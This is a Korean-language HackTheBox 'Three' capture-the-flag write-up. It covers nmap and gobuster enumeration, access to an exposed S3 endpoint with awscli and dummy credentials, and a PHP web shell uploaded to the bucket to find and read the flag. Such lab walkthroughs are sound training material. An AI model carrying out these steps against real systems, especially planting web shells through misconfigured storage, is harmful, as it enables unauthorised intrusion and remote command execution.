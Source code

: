 ```yaml
---
title: HTB Three Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox, Gobuster, AWS, S3, awscli]
image:
    path: /assets/image_post/20240214231540.png
---
```


![](../assets/image_post/20240214231721.png)

우선 port scan 결과를 먼저 확인해보자. ssh와 http port가 기본 포트에 맞추어 열려있다.
``` bash
┌──(root㉿fb940ca6010c)-[/rfi]
└─# nmap -sC -sV 10.129.227.248
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 14:17 UTC
Nmap scan report for 10.129.227.248
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.33 seconds
```

이전 문제와는 조금은 다르지만 유사한 점이 있다. IP로 해당 사이트가 접근 되긴 하지만, 다른 페이지로의 이동은 되지 않는다. 할당 된 ip로 접근 시 아래와 같이 웹에 접근 된다.
![](../assets/image_post/20240214232544.png)

다만, 사이트의 기능을 눌러보면 아래와 같이 접근되지 않는 부분이 있다. 아마 `/etc/hosts`에 등록을 해주어야 하는 것 같다.
``` bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```
![](../assets/image_post/20240214232658.png)

그렇다면 사이트 url을 알아야 등록이 가능한데, 나의 경우 페이지 소스를 보며 찾았다. 굳이 페이지 소스가 아니라 CONTANT에 기재된 이메일 주소를 통해 유추해볼 수도 있다. 이메일 주소에 포함된 'thetoppers.htb'가 site url로 추정된다.
``` html
      <div class="w3-col m6 w3-large w3-margin-bottom">
        <i class="fa fa-map-marker" style="width:30px"></i> Chicago, US<br>
        <i class="fa fa-phone" style="width:30px"></i> Phone: +01 343 123 6102<br>
        <i class="fa fa-envelope" style="width:30px"> </i> Email: mail@thetoppers.htb<br>
      </div>
      <div class="w3-col m6">
```

`/etc/hosts`를 수정해도 위의 페이지는 들어가지지 않는다. 그렇다면 접근 가능한 다른 url이 있는지 파악하기 위해 gobuster를 사욜해보고자 한다. 결과는 아래와 같고 사용한 리스트 파일은 [링크](https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt)에서 다운 가능하다.
``` bash
┌──(root㉿fb940ca6010c)-[/]
└─# gobuster dir -u http://thetoppers.htb/ -w ./dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://thetoppers.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ./dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://thetoppers.htb/images/]
/index.php            (Status: 200) [Size: 11952]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

수집된 경로를 보아 /images에 접근 가능한 듯하다. 접근 해보니 아래와 같이 Directory Listing 취약점이 존재하는 것을 알 수 있다. 
![](../assets/image_post/20240214233724.png)

다만 저 경로 외에 더 이상의 접근은 되지 않아 별 다른 정보를 획득하지는 못했다. 그렇다면 우선 남은 추가 정보는 Apache 버전 정보이다.
```
Apache/2.4.29 (Ubuntu) Server at thetoppers.htb Port 80
```

gobuster dns를 사용하여 찾아도 별다른 정보를 얻을 수 없다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dns -d thetoppers.htb -w /usr/share/wordlists/dnsmap.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     thetoppers.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/dnsmap.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 17576 / 17577 (99.99%)
===============================================================
Finished
===============================================================
```

지금 이 부분은 다른 사람의 writeup을 참고한 부분이다. 원래 아래와 같이 vhost로 스캔하면 s3.thetoppers.htb가 수집되어야 하는데, 나의 경우 수집이 되지 않는다. 무언가 불안정한가...
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster vhost -u http://thetoppers.htb -w subdomains-top1million-5000.txt
```
s3.thetoppers.htb에 대한 정보를 획득했다는 가정하에, 정상접근을 위해선 이전과 마찬가지로 /etc/hosts에 추가해주어야 한다.
``` bash
10.129.188.193  thetoppers.htb s3.thetoppers.htb
```

s3의 경우 AWS 버킷과 관련된 것으로 접근을 위해 awscli를 설치하자. awscli를 설치 후 aws 명령어로 해당 서버에 접속을 시도해보자. 아래와 같이 설정이 되지 않아 오류가 발생한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Unable to locate credentials. You can configure credentials by running "aws configure".
```

다행히 별도의 값이 있어야 하지는 않고 아래와 같이 임의의 값을 넣어 주면 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws configure
AWS Access Key ID [None]: test
AWS Secret Access Key [None]: test
Default region name [None]: test
Default output format [None]: test
```

이후 다시 해보니 아래와 같이 연결이 불가하다고 뜨며 주소가 나타난다. 내가 원했던 's3.thetoppers.htb'가 아니라 조금 많이 긴 주소인 것을 보니 무언가 잘못된 듯 싶다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Could not connect to the endpoint URL: "https://s3.thetoppers.amazonaws.com/s3.thetoppers.htb?list-type=2&prefix=&delimiter=%2F&encoding-type=url"
```

명령어 인자를 아래와 같이 변경 후 접근 시 성공적으로 접근 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls

2024-02-15 03:33:23 thetoppers.htb
```

우선 어떤 파일들이 있는지 확인해보자. index.php와 jpg 파일 외에 별 다른 파일은 보이지 않는다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls
2024-02-15 05:38:01 thetoppers.htb

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb
                           PRE images/
2024-02-15 05:38:01          0 .htaccess
2024-02-15 05:38:02      11952 index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb/images/
2024-02-15 05:38:01      90172 band.jpg
2024-02-15 05:38:02     282848 band2.jpg
2024-02-15 05:38:02    2208869 band3.jpg
2024-02-15 05:38:01      77206 final.jpg
2024-02-15 05:38:01      69170 mem1.jpg
2024-02-15 05:38:01      39270 mem2.jpg
2024-02-15 05:38:02      64347 mem3.jpg
```

그렇다면 awscli로 웹쉘을 업로드하여 동작시켜보고자 한다. 웹쉘은 아래의 경로에서 선택하여 cmd.php라는 이름으로 저장하였다.
> https://github.com/cspshivam/webshells

아래는 기존에 존재하던 index.php를 다운로드하고, 내가 작성한 cmd.php를 갖은 경로에 업로드 하는 과정이다. `aws s3 --endpoint=http://s3.thetoppers.htb ls`로 수집한 경로 `thetoppers.htb`에 대해 아래와 같이 접근해야한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb cp s3://thetoppers.htb/index.php ./index.php

download: s3://thetoppers.htb/index.php to ./index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb cp ./cmd.php s3://thetoppers.htb/cmd.php
upload: ./cmd.php to s3://thetoppers.htb/cmd.php
```
이제 업로드한 경로를 통해 접근해보면 아래와 같이 성공적으로 웹쉘 업로드가 됐다.
![](../assets/image_post/20240216102926.png)

문제를 풀 때 대체적으로 flag가 존재하는 파일의 이름이 flag.txt이기에 아래와 같이 find 명령어로 찾아보았고, 바로 결과가 나왔다.
![](../assets/image_post/20240216103050.png)

이제 flag 파일을 출력하면 정답을 확인할 수 있다.
![](../assets/image_post/20240216103158.png)

awscli를 처음 사용해보기에, 유익했다. 회사의 자산에 대해서도 위험 여부 판단을 할 때 사용하면 좋을 것 같다.
![](../assets/image_post/20240216103322.png)